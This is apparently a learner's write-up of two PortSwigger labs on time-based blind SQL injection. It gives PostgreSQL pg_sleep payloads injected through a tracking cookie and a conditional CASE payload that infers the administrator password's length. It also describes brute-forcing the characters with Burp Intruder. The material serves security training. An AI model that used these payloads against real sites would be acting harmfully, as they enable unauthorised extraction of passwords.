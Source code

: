 # Exploiting blind SQL injection by triggering time delays

If return data or not doesn't affect response result, database error got handled (caught) very well have error doesn't affect response results.

If we know **sql query works sync (After querying, then response result returns)**,  we can use time delay methods.

<br>

lab : 
This lab contains a [blind SQL injection](https://portswigger.net/web-security/sql-injection/blind) vulnerability. The application uses a tracking cookie for analytics, and performs an SQL query containing the value of the submitted cookie.

The results of the SQL query are not returned, and the application does not respond any differently based on whether the query returns any rows or causes an error. However, since the query is executed synchronously, it is possible to trigger conditional time delays to infer information.

To solve the lab, exploit the [SQL injection](https://portswigger.net/web-security/sql-injection) vulnerability to cause a 10 second delay.

<br>
Solving process :

use sql injection cheat sheet time delay part to find out what database type and trigger a 10s delay.
![[Pasted image 20211021013949.png]]



```sql
select * from xxx where trackingId = '
userInput' || pg_sleep(10)) --
'
```

```sql

userInput' || pg_sleep(10)) === concat('userInput',pg_sleep(10))

```
<br>


lab  Blind SQL injection with time delays and information retrieval

This lab contains a [blind SQL injection](https://portswigger.net/web-security/sql-injection/blind) vulnerability. The application uses a tracking cookie for analytics, and performs an SQL query containing the value of the submitted cookie.

The results of the SQL query are not returned, and the application does not respond any differently based on whether the query returns any rows or causes an error. However, since the query is executed synchronously, it is possible to trigger conditional time delays to infer information.

The database contains a different table called `users`, with columns called `username` and `password`. You need to exploit the blind [SQL injection](https://portswigger.net/web-security/sql-injection) vulnerability to find out the password of the `administrator` user.

To solve the lab, log in as the `administrator` user.

Solving process :

add `' || (select case when length(password) = §1§ then pg_sleep(1) else ' ' end from users where username = 'administrator') --`, find  user `administrator` password's length.

![[Pasted image 20211021022134.png]]
![[Pasted image 20211021022052.png]]
password length is 20.

**We need to set intruder thread to 1 to get clear result.**
<br>

**How to add response time column?**
![[Pasted image 20211021022445.png]]

<br>

find out password : Use intruder cluster bomb and set payload type and range correctly.
![[Pasted image 20211021025108.png]]



